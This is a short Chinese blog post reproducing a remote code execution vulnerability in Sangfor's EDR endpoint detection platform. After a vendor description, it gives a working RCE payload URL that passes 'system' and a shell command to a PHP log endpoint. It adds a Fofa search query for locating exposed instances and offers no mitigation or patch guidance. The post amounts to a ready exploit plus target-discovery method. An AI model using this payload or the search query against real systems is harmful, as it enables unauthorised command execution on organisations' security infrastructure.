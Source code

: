 # 深X服 EDR终端检测系统RCE漏洞复现




#### 简介

深信服终端检测响应平台EDR，围绕终端资产安全生命周期，通过预防、防御、检测、响应赋予终端更为细致的隔离策略、更为精准的查杀能力、更为持续的检测能力、更为快速的处置能力。在应对高级威胁的同时，通过云网端联动协同、威胁情报共享、多层级响应机制，帮助用户快速处置终端安全问题，构建轻量级、智能化、响应快的下一代终端安全系统。



#### EDR的界面

<img src="http://image.xpshuai.cn/rce11.jpg"></img>





#### RCE Payload

```bash
https://xxx.com:xxx/tool/log/c.php?strip_slashes=system&host=id
```

<img src="http://image.xpshuai.cn/rce22.jpg"></img>





#### **Fofa关键字** 

```bash
title="终端检测响应平台"
```



---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/%E6%B7%B1x%E6%9C%8D-edr%E7%BB%88%E7%AB%AF%E6%A3%80%E6%B5%8B%E7%B3%BB%E7%BB%9Frce%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/  

